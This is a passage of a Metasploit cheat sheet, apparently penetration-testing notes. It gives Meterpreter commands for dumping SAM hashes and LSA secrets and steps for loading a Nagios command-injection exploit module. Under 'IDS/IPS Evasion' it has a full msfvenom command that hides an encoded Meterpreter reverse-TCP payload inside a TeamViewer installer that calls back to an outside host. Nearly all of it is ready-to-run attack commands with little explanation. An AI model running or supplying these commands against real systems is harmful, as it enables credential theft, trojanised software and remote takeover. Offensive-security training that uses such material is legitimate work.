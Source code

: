 ```Shell
lsa_dump_sam
```

#### MSF - Meterpreter LSA Secrets Dump
```Shell
lsa_dump_secrets
```


## Importing Exploits

#### MSF - Directory Structure
```Shell
/usr/share/metasploit-framework/
```

#### Create `.msf4` directory
```Shell
mkdir .msf4
```
Copy exploit to `.msf4` folder

#### Loading Additional Modules at Runtime
```Shell
cp ~/Downloads/9861.rb /usr/share/metasploit-framework/modules/exploits/unix/webapp/nagios3_command_injection.rb
```

```Shell
msfconsole -m /usr/share/metasploit-framework/modules/
```

#### MSF - Loading Additional Modules
```Shell
loadpath /usr/share/metasploit-framework/modules/
```

or

```Shell
reload_all
use exploit/unix/webapp/nagios3_command_injection
```


## IDS/IPS Evasion

#### Embed a payload into an executable file
```Shell
msfvenom windows/x86/meterpreter_reverse_tcp LHOST=10.10.14.2 LPORT=8080 -k -x ~/Downloads/TeamViewer_Setup.exe -e x86/shikata_ga_nai -a x86 --platform windows -o ~/Desktop/TeamViewer_Setup.exe -i 5
```

### Archives
